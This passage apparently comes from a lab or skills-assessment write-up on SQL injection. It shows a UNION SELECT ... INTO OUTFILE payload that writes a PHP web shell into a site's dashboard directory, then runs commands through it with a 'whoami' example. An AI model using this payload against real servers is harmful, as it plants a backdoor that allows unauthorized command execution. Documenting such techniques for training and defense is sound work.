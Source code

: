 As this page, **dashboard.php**, is located in **/dashboard**, maybe the current user has writing permissions in that directory. Let's try with the following payload, which creates a file that contains vulnerable **PHP** code. This script is going to execute whatever command we're going to pass. Of course we still have to select **5** columns.

{% highlight sql %}

' UNION SELECT "", "<?php system($_REQUEST[0]); ?>", "", "", "" INTO OUTFILE '/var/www/html/dashboard/script.php';-- -

{% endhighlight %}

Indeed, we created our malicious file! The lack of errors is a positive indicator that our file was written successfully.

{:refdef: style="text-align: center;"}
[![Malicious file created](/assets/sqlifundamentalsskillsassessment/19_successful_write.png)](/assets/sqlifundamentalsskillsassessment/19_successful_write.png){:target="_blank"}
{:refdef}

All there is to do now is to **exploit** our file by visiting **/dashboard/script.php** and submitting any command in the parameter **0**. For example, visiting **/dashboard/script.php?0=whoami** returns **www-data**, along with other non relevant information.

{:refdef: style="text-align: center;"}